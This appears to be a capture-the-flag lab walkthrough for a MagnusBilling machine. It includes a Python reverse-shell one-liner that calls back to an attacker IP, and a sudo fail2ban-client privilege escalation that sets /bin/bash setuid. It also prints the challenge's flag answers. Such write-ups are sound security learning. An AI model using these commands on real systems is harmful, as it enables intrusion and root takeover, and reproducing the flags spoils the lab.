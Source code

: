 ﻿# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![Pasted image 20250612121156.png](../../IMAGES/Pasted%20image%2020250612121156.png)

Once we go to the web application, we can check this is working with something called `MagnusBilling`, we know this because a little moment before going into the web application, this loads in:

![Pasted image 20250612121421.png](../../IMAGES/Pasted%20image%2020250612121421.png)

**MagnusBilling** is an open-source VoIP billing and call accounting platform designed for service providers, call shops, and enterprises. It provides comprehensive solutions for call routing, rate management, user provisioning, and real-time billing. Built on a LAMP/LEMP stack, it supports integration with major VoIP protocols (SIP, IAX) and hardware, featuring web-based management, fraud detection, and multi-tenant capabilities.

If we search info related to this, we can find this exploit:

![Pasted image 20250612121504.png](../../IMAGES/Pasted%20image%2020250612121504.png)


![Pasted image 20250612121513.png](../../IMAGES/Pasted%20image%2020250612121513.png)


Based on that, let's search a module on `metasploit`:

![Pasted image 20250612121650.png](../../IMAGES/Pasted%20image%2020250612121650.png)

Same exploit as the one above, let's proceed with exploitation.


# EXPLOITATION
---

![Pasted image 20250612121837.png](../../IMAGES/Pasted%20image%2020250612121837.png)

Now, set options and run the exploit:


![Pasted image 20250612121935.png](../../IMAGES/Pasted%20image%2020250612121935.png)


We got our meterpreter shell, I will switch to a netcat shell for a better experience:

```
meterpreter > shell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("VPN_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```


![Pasted image 20250612122241.png](../../IMAGES/Pasted%20image%2020250612122241.png)

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250612122406.png](../../IMAGES/Pasted%20image%2020250612122406.png)

We got a shell as `asterisk`, let's use linpeas and check what can we do to escalate our privileges:


![Pasted image 20250612122904.png](../../IMAGES/Pasted%20image%2020250612122904.png)

We can run `fail2ban-client` binary, in a previous machine, specifically `biteme`, a similar privilege escalation was done with this binary but in that case we could reset the service of `fail2ban`, let's check how to exploit it in this case:

![Pasted image 20250612123256.png](../../IMAGES/Pasted%20image%2020250612123256.png)

![Pasted image 20250612123306.png](../../IMAGES/Pasted%20image%2020250612123306.png)

That would work but we don't have write permissions over the `iptables.conf` file:

![Pasted image 20250612123407.png](../../IMAGES/Pasted%20image%2020250612123407.png)

Unfortunately, this is not the path, but, investigating further we can find this article:

Article: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

![Pasted image 20250612123516.png](../../IMAGES/Pasted%20image%2020250612123516.png)

Let's replicate the PoC:

```
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

```
asterisk@ip-10-10-24-201:/tmp$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

sudo /usr/bin/fail2ban-client get mbilling_ddos actions
The jail mbilling_ddos has the following actions:
iptables-allports

sudo /usr/bin/fail2ban-client set mbilling_ddos addaction evil
sudo /usr/bin/fail2ban-client set mbilling_ddos action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set mbilling_ddos banip 1.2.3.5
```

![Pasted image 20250612123848.png](../../IMAGES/Pasted%20image%2020250612123848.png)

As seen, we get a root shell following the PoC, let's get both flags:

```
bash-5.2# cat /home/magnus/user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}

bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```

![Pasted image 20250612124033.png](../../IMAGES/Pasted%20image%2020250612124033.png)

